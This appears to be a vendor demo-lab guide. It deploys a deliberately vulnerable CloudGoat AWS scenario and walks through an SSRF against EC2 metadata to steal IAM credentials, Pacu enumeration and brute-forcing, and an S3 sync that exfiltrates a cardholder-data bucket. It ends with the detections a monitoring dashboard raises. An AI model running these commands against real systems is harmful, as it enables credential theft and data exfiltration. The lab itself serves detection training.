 .. _ec2_attack_lab:


===========================
EC2 Attack
===========================

Notes
++++++++++++++++++++++++++++++++
- SE DfAWS Console https://207753870716.uw2.portal.vectra.ai/
- AWS target account vectra-demolab (884414556547)
- AWS attacker VM should be in a different account vectra-se-dev (257321424819)


Setup AWS Profile
=================

- Login with SSO

.. code:: console

   aws sso login --profile sso-demolab

- Export AWS profile path

.. code:: console

   export AWS_PROFILE=sso-demolab 

- Verify credentials are working

.. code:: console

   aws sts get-caller-identity

Setup Cloudgoat
===============
- Run Cloudgoat config profile from home directory and set default profile name to ``sso-demolab``

.. code:: console

   ~/cloudgoat/cloudgoat.py config profile

- Run Cloudgoat config whitlelist 

.. code:: console

   echo "`curl ifconfig.io`/32" > ~/cloudgoat/whitelist.txt


Create vulnerable infrastructure
++++++++++++++++++++++++++++++++

- Now that the tools are setup we will use Cloudgoat to setup vulnerable
  infrastructure in AWS. This will create a scenario with a misconfigured
  reverse-proxy server in EC2.

-  Run the attack scenario

.. code:: console
   
    ~/cloudgoat/cloudgoat.py create cloud_breach_s3

.. figure:: ./images/cloudgoatout.png
   :alt: cgsetup

.. note::  **Copy the response to a text file**.  You will need the EC2 IP

Start attack
============

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges, exploit a misconfigured reverse-proxy server to query the
EC2 metadata service and acquire instance profile keys. Then, use those
keys to discover, access, and exfiltrate sensitive data from an S3
bucket.

Get Role Name
+++++++++++++

-  Replace ``<ec2-ip-address>`` with the IP address from the previous
   step to get a role name. 

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

.. figure:: ./images/role.png
   :alt: role

.. note:: **Copy the response to a text file**.  You will need the role

Get Credentials
+++++++++++++++

-  Replace ``<ec2-ip-address>`` and ``<ec2-role-name>`` from the
   previous steps to get the keys

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

.. figure:: ./images/ssrf2.png
   :alt: creds

.. note::  **Copy response to text file**.  You will use the stolen credentials

Pacu Discovery 
++++++++++++++

-  Next we will use pacu to do discovery with the stolen credentials

   -  Start pacu from the shell session by running ``~/pacu/cli.py``
   -  Create new session in pacu named ``cloud_breach_s3``
   -  Set the keys using ``set_keys`` from the pacu session using the
      stolen credentials from the previous step

.. figure:: ./images/pacukeys.png
   :alt: keys

Pacu Results
++++++++++++

-  Use pacu to start discovery using the following modules

   -  ``run aws__enum_account`` Get account details: permission denied
   -  ``run iam__enum_permissions`` Get permissions for IAM entity:
      permission denied
   -  ``run iam__enum_users_roles_policies_groups`` Get group polices
      for IAM entity: permission denied
   -  ``run iam__bruteforce_permissions`` Brute force for access to
      services: **BINGO!**

.. figure:: ./images/output.png
   :alt: output

-  The stolen credentials have full access to S3
-  Exit pacu by typing ``exit`` and return to attack
   
Data Exfil
++++++++++

-  Create a new aws profile with stolen credentials

.. code:: console

   aws configure --profile cloud_breach_s3

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen credentials

-  Set the “Default region” name and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file
   (use i for insert mode then esc :wq to save and close)

.. code:: console

   vi  ~/.aws/credentials

.. figure:: ./images/sestoken.png
   :alt: sestoken

-  Use aws cli to list buckets the stolen credentials have access to

.. code:: console
   
    aws s3 ls --profile cloud_breach_s3
   
.. figure:: ./images/list.png
    :alt: list

-  Download data from the ``cardholder-data`` bucket to local system
   home directory. Replace ``<bucket-name>`` with the bucket to download
   data

.. code:: console  
   
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3

-  Change to home directory and perfom list to verify data was
   downloaded 
   
.. code:: console 
   
    cd && ls
   
.. figure:: ./images/download.png
    :alt: verify

-  Remove vulnerable infrastructure

.. code:: console 

    ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3

-  Attack had been completed. Review the detections in dfaws dashboard

-  Detections visible include: 
   
   - AWS Organization Discovery- A credential was observed enumerating AWS Organization details.
   - AWS User Permissions Enumeration- Control plane APIs associated with the reconnaissance of IAM resources were invoked in a suspicious way that may be associated with a potential privilege escalation attack.
   - AWS Suspicious Credential Usage- A temporary credential generated by an EC2 instance in your environment was observed attempting to access an AWS API from a source that is not EC2.
   - AWS Suspicious EC2 Enumeration- Control plane APIs associated with reconnaissance on EC2 resources were invoked in a suspicious manner. 
   - AWS S3 Enumeration- Control plane APIs associated with the reconnaissance of S3 resources were invoked in a suspicious manner.

.. figure:: ./images/critical.png
   :alt: critical
